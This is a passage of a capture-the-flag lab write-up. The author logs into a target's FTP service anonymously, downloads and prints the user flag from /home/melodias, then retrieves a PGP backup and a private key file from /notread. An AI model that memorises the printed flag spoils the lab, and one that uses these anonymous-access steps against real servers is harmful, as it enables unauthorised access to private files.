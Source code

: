 1) Login in Ftp service with:
- Username && Password: Anonymous

2) I see a filesystem, so I entry in the home to discover username and flag user.txt:
```
ftp> cd home
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||38445|)
150 Here comes the directory listing.
drwxr-xr-x    4 1000     1000         4096 Aug 11  2019 melodias
226 Directory send OK.
ftp> cd melodias
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||65170|)
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000           33 Aug 11  2019 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||32102|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |**********************************************************************************************************************************************************************************************|    33      100.39 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.35 KiB/s)
```

3) After I open the file user.txt in my computer:
```
┌──(kali㉿kali)-[~]
└─$ cat user.txt    
606083fd33beb1284fc51f411a706af8  <-- User flag
```

4) Then I entry anther time inseide FTP service and downloads all file inside directory /notread:

ftp> cd notread
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||12587|)
150 Here comes the directory listing.
-rwxrwxrwx    1 1000     1000          524 Aug 11  2019 backup.pgp
-rwxrwxrwx    1 1000     1000         3762 Aug 11  2019 private.asc
226 Directory send OK.
ftp> cd ..
250 Directory successfully changed.
ftp> get notread
local: notread remote: notread
229 Entering Extended Passive Mode (|||34673|)
550 Failed to open file.
ftp> cd notread
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||28109|)
150 Here comes the directory listing.
-rwxrwxrwx    1 1000     1000          524 Aug 11  2019 backup.pgp
-rwxrwxrwx    1 1000     1000         3762 Aug 11  2019 private.asc
226 Directory send OK.
ftp> get backup.pgp > notread
usage: get remote-file [local-file]
ftp> get backup.pgp 
local: backup.pgp remote: backup.pgp
229 Entering Extended Passive Mode (|||46432|)
150 Opening BINARY mode data connection for backup.pgp (524 bytes).
100% |**********************************************************************************************************************************************************************************************|   524        3.49 MiB/s    00:00 ETA
226 Transfer complete.
524 bytes received in 00:00 (4.74 KiB/s)
ftp> get private.asc
local: private.asc remote: private.asc
229 Entering Extended Passive Mode (|||16175|)
150 Opening BINARY mode data connection for private.asc (3762 bytes).
100% |**********************************************************************************************************************************************************************************************|  3762        4.80 MiB/s    00:00 ETA
226 Transfer complete.
3762 bytes received in 00:00 (42.32 KiB/s)
ftp> exit
221 Goodbye.


